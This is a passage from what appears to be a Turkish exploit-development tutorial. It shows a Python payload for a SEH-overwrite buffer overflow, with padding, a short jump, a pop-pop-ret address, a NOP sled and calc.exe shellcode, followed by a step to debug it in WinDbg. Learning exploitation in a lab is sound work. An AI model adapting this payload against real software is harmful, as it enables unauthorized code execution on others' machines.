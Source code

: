     boyut = 3004
    mesaj2  = struct.pack("L", 4)
    mesaj2 += "\x41" * 451
    mesaj2 += "\xeb\x06\x90\x90"                    #jmp 06 byte
    mesaj2 += struct.pack('<I', 0x1001309D)         #pop pop ret, jump to next seh 
    mesaj2 += "\x90" * 24 
    mesaj2 += "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"    #calc.exe shellcode
    mesaj2 += "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
    mesaj2 += "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
    mesaj2 += "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
    mesaj2 += "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
    mesaj2 += "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
    mesaj2 += "\x45\x81\x3e\x43\x72\x65\x61\x75"
    mesaj2 += "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
    mesaj2 += "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
    mesaj2 += "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
    mesaj2 += "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
    mesaj2 += "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
    mesaj2 += "\x6c\x63\x89\xe2\x52\x52\x53\x53"
    mesaj2 += "\x53\x53\x53\x53\x52\x53\xff\xd7"
    mesaj2 += "D" * (boyut-len(mesaj2))

Şimdi programı Windbgda açıp `bp 0x1001309D` ile pop pop ret kısmına *breakpoint* koyup exploiti çalıştralım. Ardından neler olup bittiğini görelim.

![](/files/xxyes.png)
